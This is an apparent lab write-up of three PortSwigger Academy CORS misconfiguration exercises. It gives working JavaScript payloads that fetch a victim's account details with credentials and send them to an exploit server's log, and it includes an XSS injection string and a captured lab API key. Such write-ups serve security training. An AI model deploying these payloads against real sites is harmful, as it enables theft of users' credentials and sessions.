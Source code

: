 # CORS

## Table of Contents

- [CORS vulnerability with basic origin reflection](#cors-vulnerability-with-basic-origin-reflection)
- [CORS vulnerability with trusted null origin](#cors-vulnerability-with-trusted-null-origin)
- [CORS vulnerability with trusted insecure protocols](#cors-vulnerability-with-trusted-insecure-protocols)

---



### [CORS vulnerability with basic origin reflection](https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack)

Goal : craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server.

- log in and access your account page.
- I saw this endpoint `/accountDetails` in the profile page source.

<img src=".\cors\1_1.png" style="zoom:80%;" />

- go to `/accountDetails`, and the observe the `Access-Control-Allow-Credentials` header.

- Send the request to Burp Repeater, and resubmit it with the added header:

  ```javascript
  Origin: test.com
  ```

- Observe that the origin is reflected in the `Access-Control-Allow-Origin` header.

<img src=".\cors\1_2.png" style="zoom:80%;" />

- In the browser, go to the exploit server and enter the following HTML

  ```javascript
  <script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','<your-lab-url>/accountDetails',true);
  req.withCredentials = true;
  req.send();
  
  function reqListener() {
     location='<your-exploit-server>/log?key='+this.responseText;
  };
  
  </script>
  ```

- Click **View exploit**. Observe that the exploit works - you have landed on the log page and your API key is in the URL.

- Go back to the exploit server and click **Deliver exploit to victim**.

- Click **Access log**, retrieve and submit the victim's API key to complete the lab.

```json
{  "username": "administrator",  "email": "",  "apikey": "SaCAyGSHgJD1QifqVNXAKr82XZKAra7S",  "sessions": [    "zLW0oQ69tCRLl2Dw3ZOu34JMgMPRa10k"  ]}
```



---



### [CORS vulnerability with trusted null origin](https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack)

Goal: craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server.

- log in and access your account page.

- go to `/accountDetails`, and the observe the `Access-Control-Allow-Credentials` header.

- Send the request to Burp Repeater, and resubmit it with the added header:

  ```json
  Origin: test.com
  ```

- notice that no thing happened with the `Access-Control-Allow-Origin` header. this means it performs whitelist checking on the provided origin

-  resubmit it with the null value `Origin: null`

- Observe that the origin is reflected in the `Access-Control-Allow-Origin` header.

<img src=".\cors\2_1.png" style="zoom:80%;" />

- In the browser, go to the exploit server and enter the following HTML

  ```javascript
  <iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','<your-lab-url>/accountDetails',true);
  req.withCredentials = true;
  req.send();
  
  function reqListener() {
  location='<your-exploit-server>/log?key='+this.responseText;
  };
  </script>"></iframe>
  ```

  >the exploit exists in  sandbox iframe to be sent from null origin

- Click **View exploit**. Observe that the exploit works - you have landed on the log page and your API key is in the URL.
- Go back to the exploit server and click **Deliver exploit to victim**.
- Click **Access log**, retrieve and submit the victim's API key to complete the lab.



---





### [CORS vulnerability with trusted insecure protocols](https://portswigger.net/web-security/cors/lab-breaking-https-attack)

Goal: craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server.

- log in and access your account page.

- go to `/accountDetails`, and the observe the `Access-Control-Allow-Credentials` header.

- Send the request to Burp Repeater, and resubmit it with the added header:

  ```
  Origin: test.com 
  OR
  Origin: null
  ```

- notice that no thing happened with the `Access-Control-Allow-Origin` header. this means it performs whitelist checking on the provided origin

- go to any product and click `check stock` , note that it responds from a `stock` subdomain

- write this subdomain in the `Origin` header 

- Observe that the origin is reflected in the `Access-Control-Allow-Origin` header

<img src=".\cors\3_1.png" style="zoom:80%;" />





- now to exploit the CORS misconfiguration we need to find `XSS` in the stock subdomain or any other one

- Observe the two parameters in the stock subdomain , note that the  `productID` parameter is vulnerable to `XSS`
  ```bash
  http://stock.<your-lab-url>.web-security-academy.net/?productId=1%3cscript%3ealert(1)%3c%2fscript%3e2&storeId=2
  ```

  

<img src=".\cors\3_2.png" style="zoom:80%;" />



- now with `CORS+XSS` we can get the administrator api key by sending a request to the`stock` subdomain with the CORS exploit in the  `productID` parameter
-  go to the exploit server and enter the following HTML

```javascript
<script>
    document.location="http://stock.<your-lab-url>.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://.<your-lab-url>.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-<your-exploit-url>.web-security-academy.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

- Click **View exploit**. Observe that the exploit works - you have landed on the log page and your API key is in the URL.
- Go back to the exploit server and click **Deliver exploit to victim**.
- Click **Access log**, retrieve and submit the victim's API key to complete the lab.





---









